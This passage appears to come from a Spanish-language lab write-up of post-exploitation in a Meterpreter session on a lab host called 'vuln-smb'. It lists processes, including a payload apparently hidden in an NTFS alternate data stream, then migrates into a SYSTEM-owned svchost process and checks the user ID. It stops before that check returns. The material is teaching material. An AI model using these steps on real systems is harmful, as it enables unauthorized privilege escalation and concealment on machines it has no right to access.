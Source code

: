 ```
 836   464   svchost.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 876   464   svchost.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 936   784   audiodg.exe               x64   0
 988   464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\system32\svchost.exe
 1036  464   spoolsv.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1072  464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\system32\svchost.exe
 1192  464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\system32\svchost.exe
 1400  464   SearchIndexer.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe
 1564  464   svchost.exe               x64   0        NT AUTHORITY\Servicio de red  C:\Windows\system32\svchost.exe
 1696  1400  SearchFilterHost.exe      x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchFilterHost.exe
 1724  464   taskhost.exe              x64   1        vuln-smb\diseo                C:\Windows\system32\taskhost.exe
 1752  836   dwm.exe                   x64   1        vuln-smb\diseo                C:\Windows\system32\Dwm.exe
 1768  1740  explorer.exe              x64   1        vuln-smb\diseo                C:\Windows\Explorer.EXE
 2004  464   wmpnetwk.exe              x64   0        NT AUTHORITY\Servicio de red  C:\Program Files\Windows Media Player\wmpnetwk.exe
 2500  2528  windowslog.txt:PuTTY.exe  x64   1        vuln-smb\diseo                C:\Windows\System32\wupdate.exe
```

```
584   464   svchost.exe    x64   0   NT AUTHORITY\SYSTEM C:\Windows\system32\svchost.exe
```

Ese mismo de ahi.

```shell
migrate 584
```

Info:

```
[*] Migrating from 2500 to 584...
[*] Migration completed successfully.
```

Y si vemos que usuario somos.

```shell
getuid
```

Info:
